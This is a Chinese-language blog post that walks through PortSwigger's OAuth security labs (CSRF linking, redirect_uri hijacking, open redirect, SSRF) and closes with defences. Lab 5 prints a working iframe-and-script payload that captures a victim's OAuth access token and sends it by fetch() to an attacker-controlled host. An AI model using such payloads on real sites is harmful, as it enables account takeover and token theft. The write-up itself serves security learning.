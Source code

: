 ```yaml
---
layout:     post
title:      "OAuth安全学习"
subtitle:   ""
date:       2021-01-12 10:40:00
author:     "kuron3k0"
header-img: "img/home-bg-o.jpg"
tags:
    - OAuth
    - Web
---
```


OAuth是如今一种比较流行的授权机制，虽然已经出现很久了，但是一直没有详细了解过攻击手法，今天就来学习一下。

## OAuth简介
一个简单的图解，侵删
![](/img/in-post/oauth-security/oauth.jpg)

[阮一峰大佬的博客](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)说的挺清晰的了，这里就不细讲了，就用授权码的方式举一个OAuth实际应用的例子。


下面是一个用到GitHub OAuth的地方：`https://sec.today`
![](/img/in-post/oauth-security/1.png)

登陆成功，省去了重新注册的时间
![](/img/in-post/oauth-security/2.png)

看一下相关请求是什么，点击`用GitHub登录`后，从浏览器发起了第一个请求：`https://sec.today/oauth/login/github/`

重定向到GitHub进行登录：`https://github.com/login/oauth/authorize?client_id=dad4bf1a56b861bac810&redirect_uri=https%3A%2F%2Fsec.today%2Foauth%2Fcomplete%2Fgithub%2F%3Fredirect_state%3DH2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&response_type=code`

在GitHub登录完成后，返回授权码`code`，附在上一步填的`redirect_uri`后面：`https://sec.today/oauth/complete/github/?redirect_state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&code=1c02c1234d182db57bd5&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw`

最后，`sec.today`带着授权码拿到我们`GitHub`账号的信息，我们就用`GitHub`的身份完成了在`sec.today`上的登陆



## PortSwigger靶场
### 【LAB 1】Authentication bypass via OAuth implicit flow

题目要求：在`implicit`形式的OAuth中进行认证绕过

`implicit`方式的所有操作都是在客户端完成，最后认证完成得到的`access_token`也是会返回到客户端，所以只需要把`access_token`绑定为任意需要操作的用户即可

点击登录
![](/img/in-post/oauth-security/3.png)

返回`access_token`
![](/img/in-post/oauth-security/4.png)

把`access_token`和任意用户绑定
![](/img/in-post/oauth-security/5.png)


### 【LAB 2】Forced OAuth profile linking

题目要求：获取`admin`权限（`admin`已登录第三方应用，且会访问我们构造的任何链接）

所以很明显是要`CSRF`了，根据OAuth的流程可以知道，我们要做的就是用我们的OAuth信息去绑定`admin`的第三方应用的账号

首先先用我们自己的账号进行OAuth登录，可以看到返回了一个`code`，但这个时候要把这个请求拦截下来，构造完`CSRF Payload`后drop掉，然后让`admin`去访问
![](/img/in-post/oauth-security/6.png)

当`admin`访问后，完成绑定。然后我们再以自己的账号做OAuth登录，即可得到`admin`权限
![](/img/in-post/oauth-security/7.png)


### 【LAB 3】OAuth account hijacking via redirect_uri

题目要求：获取`admin`权限（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

构造`CSRF Payload`，`redirect_uri`设置为我们可控的地址
![](/img/in-post/oauth-security/8.png)

得到`admin`的`code`，直接登录
![](/img/in-post/oauth-security/9.png)

`admin`权限
![](/img/in-post/oauth-security/10.png)

### 【LAB 4】Stealing OAuth access tokens via an open redirect

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

这题跟上一题差不多，就是`redirect_uri`做了一些校验，然后OAuth用`implicit`模式了

`redirect_uri`不能任意指定了，试了几种方式似乎都不行，然后发现`/post/next`有重定向漏洞，且url路径检查可用`/../`绕过，这个问题解决；然后系统的`access_token`是放在url的`fragment`中的，所以我们的payload需要把它提取出来，最终结果如下：
![](/img/in-post/oauth-security/11.png)

`admin`访问后得到`access_token`
![](/img/in-post/oauth-security/12.png)

用`access_token`拿到`admin`的`apikey`
![](/img/in-post/oauth-security/13.png)

### 【LAB 5】Stealing OAuth access tokens via a proxy page

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

url校验沿用了上一题的方式，然后重定向漏洞没有了。注意到评论的页面`/post/comment/comment-form`，有一个向`父页面`发送自己url的操作，所以如果我们可以让`admin`访问OAuth登录的链接，就会把`access_token`发到评论页面，然后评论页面就会把`token`传到我们的恶意父页面
![](/img/in-post/oauth-security/14.png)

构造payload
```html
<iframe src="https://ac431f851f15ecdb807b43d102b500f3.web-security-academy.net/auth?client_id=j77c7udyz47s8jpf2mwu7&redirect_uri=https://acc41f8d1ff7ecd9800b438f009000bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener("message",function(e){
        var token=e.data.data;
        fetch("https://aca51ffb1f26ec2680814365018400cb.web-security-academy.net/"+btoa(token));
    },false);
</script>
```
接收到数据
![](/img/in-post/oauth-security/15.png)

解码得到token
![](/img/in-post/oauth-security/16.png)


### 【LAB 6】SSRF via OpenID dynamic client registration

题目要求：拿到AWS的`SecretAccessKey`

根据题目提示，访问`/.well-known/openid-configuration`（类似的url还有`/.well-known/oauth-authorization-server`和`/.well-known/jwks.json`），得到客户端动态注册的链接
![](/img/in-post/oauth-security/17.png)

翻了下一些有SSRF可能的url参数，`redirect_uri`是本地触发的；`jwks_uri`是服务端取秘钥的，应该不存在返回信息给我们的情况；剩下的`logo_uri`最有可能
![](/img/in-post/oauth-security/18.png)

注册完后进行Openid登录，看到果然有一个图片，而且明显内容不是本地请求的
![](/img/in-post/oauth-security/19.png)

得到`SecretAccessKey`
![](/img/in-post/oauth-security/20.png)

题目还提到Openid请求中，有的`provider`是可以让`client`提供一个`request_uri`自己去取参数的（`request_uri_parameter_supported`是`true`），如果没做校验的话，也是会导致SSRF
![](/img/in-post/oauth-security/21.png)

形式如下
![](/img/in-post/oauth-security/22.png)

## 防御
OAuth服务提供者需要让第三方应用提供url的白名单、用`state`等参数防止类CSRF攻击、确认最后请求的`scope`是跟最开始的请求是一致的

第三方应用也要用`state`防止CSRF、注意`code`通过`Referer`泄漏，此外移动端、桌面应用可能会包含`client_secret`，所以需要`PKCE`对`code`进行保护

[ietf的草稿](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)中还提到了一些其他的攻击场景，像`PKCE
 downgrade attack`、`307 redirection`等等，有合适的机会再研究一下

## 参考
- [https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)
- [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
- [http://www.ruanyifeng.com/blog/2019/04/oauth_design.html](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)
- [https://portswigger.net/web-security/oauth/openid](https://portswigger.net/web-security/oauth/openid)